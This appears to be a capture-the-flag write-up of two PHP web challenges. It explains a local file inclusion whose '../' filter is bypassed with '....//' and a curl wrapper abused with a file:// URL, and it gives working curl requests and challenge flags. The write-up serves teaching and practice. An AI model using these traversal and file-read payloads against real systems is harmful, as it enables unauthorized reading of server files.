



# Web Challenges

### Index
___
1. [Web Ministrypalace](#web-ministrypalace)
2. [Web CaaS](#web-caas)

### Web Ministrypalace
___


There's not much here except the different language options at the top right corner of the page, which are links to the following:
```html
<a href="?lang=en.php">EN</a>
<a href="?lang=qw.php">QW</a>
```

The `index.php` file provided contains the following php snippet:
```php
<?php
$lang = ['en.php', 'qw.php'];
    include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
?>
```
The above php snippet does the following:
1. If the `GET` parameter is empty it loads either `en.php` or `qw.php` at random from the `pages` directory .
2. It tries to prevent a _directory traversal_ attack by replacing `'../'` with an empty string `''`.
    * A _directory traversal_ vulnerability allows an attacker to read an arbitrary file from the target system by specifying its path.
    * eg) `http://target.com/?q=/etc/passwd`
    * the directive `../` is a relative path to the parent directory from the current directory.

We can bypass the filter with `'....//'`, since the first matching `'../'` will get replaced by `''` and the outer `'../'` gets preserved.

Looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile # Copy challenge files
COPY challenge /www
COPY flag /
```
Now we need to locate the `flag` relative to the `pages` directory. 
```shell
$ find . 2>/dev/null               
.
./build_docker.sh
./challenge
./challenge/index.php
...
./challenge/pages
./challenge/pages/qw.php
./challenge/pages/en.php
./flag
```

We can test our exploit on the local docker instance first with the following command.
```shell
$ curl -s "http://172.17.0.2/?lang=....//....//flag" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

```Flag = CHTB{b4d_4li3n_pr0gr4m1ng} ```

___

### Web CaaS
___

The website seems to execute a curl command with the host provided. 

After testing arbitary hostnames the command executes only upon entering a valid URL such as `http://172.17.0.2`.


Let's analyse the source code provided to understand this better.
- index.php
    - It allows is to perform a `GET` or `POST` request to the routes `'/'` and `'/api/curl'` respectively, which in turn execute a method from `CurlController`.

```php
<?php 
date_default_timezone_set('UTC');

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();
$router->new('GET', '/', 'CurlController@index');
$router->new('POST', '/api/curl', 'CurlController@execute' );

$response = $router->match();

die($response);          
```
- CurlController.php
    - `index()` just routes the user to `index.html` page
    - `execute()` checks if the `ip` parameter of the POST request is set, creates a new command with the url value passed in the request body, excutes it and returns a JSON object. 
```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```
- CommandModel.php
    - the constructor intialiases the curl command.
    - `exec()` calls the inbuilt php `exec()` function to execute the command.
```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```
Since a valid URL can have many different protocols such `http, https, ftp, file,` etc., we can use the file protocol to retrieve the `flag`.

Once again by looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile 
# Copy challenge files
COPY challenge /www
# Copy flag
COPY flag /
```

We can test our exploit on the local docker instance first by running the following command.
```shell
$ curl -X POST -F "ip=file://localhost/flag" "http://172.17.0.2/api/curl" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

```Flag = CHTB{f1le_r3trieval_4s_a_s3rv1ce}```